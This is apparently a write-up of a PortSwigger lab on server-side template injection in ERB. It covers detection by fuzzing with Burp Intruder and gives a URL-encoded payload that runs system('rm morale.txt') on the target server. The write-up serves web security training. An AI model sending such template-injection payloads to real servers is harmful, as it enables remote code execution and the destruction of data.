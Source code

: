 # [Lab: Basic server-side template injection](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)

## Lab

This lab is vulnerable to  [server-side template injection](https://portswigger.net/web-security/server-side-template-injection)  due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the  `morale.txt`  file from Carlos's home directory.

## Analysis

When I clicked the view details button of the first product, I noticed that the url was quite strange:

![analysis.png](./../img/lab-1-analysis.png)

## Exploit

Using burp's intruder:

- positions: `GET /?message=§abcd§ HTTP/1.1`
- payloads: fuzzing template injection
- result:
![fuzzing.png](./../img/lab-1-fuzzing.png)

The `<%=77*77%>` has the syntax of erb ruby

Cheatsheet: <https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby>

delete morale.txt file to solve the lab:

```http
GET /?message=%3c%25%3dsystem(%22rm+morale.txt%22)%25%3e HTTP/1.1
```

## References

<https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby>
